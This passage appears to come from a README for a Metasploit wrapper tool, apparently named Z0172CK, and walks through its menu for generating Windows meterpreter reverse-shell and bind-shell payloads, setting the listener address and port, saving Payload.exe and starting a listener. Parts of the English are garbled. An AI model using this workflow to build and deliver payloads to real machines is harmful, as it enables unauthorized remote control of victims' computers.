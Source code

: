 ```bash
[01] Windows
[02] Android
```

We select the payload platform

```bash
Z0172CK (Metasploit/PayloadGenerate) > 1
```

```bash
[01] windows/meterpreter/reverse_http                                                                                                                                
[02] windows/meterpreter/reverse_https                                                                                                                               
[03] windows/meterpreter/reverse_tcp                                                                                                                                 
[04] windows/meterpreter/bind_tcp                                                                                                                                    
[05] windows/shell/bind_tcp                                                                                                                                          
[06] windows/shell/reverse_tcp        

Z0172CK (Metasploit/MSF) Payload >
```

We select the payload

```bash
Z0172CK (Metasploit/PayloadGenerate) Payload > 3
```

Then it won't ask for a local ip and a port

```bash
Z0172CK (Metasploit/PayloadGenerate) LHOST >
```

```bash
Z0172CK (Metasploit/PayloadGenerate) LPORT >
```

We put the name of our payload, without the file extension

```bash
Z0172CK (Metasploit/PayloadGenerate) FileName > Payload
```

It will show us where the payload generator is stored

```bash
File saved in output/Payload.exe
```

Then it will ask us if we want to listen to the payload, if we give 's' to be metaplanned to metasploit, and if we give it 'n' it will return us to the main menu

```bash
desea conectarse a Metasploit [y/N] >
```
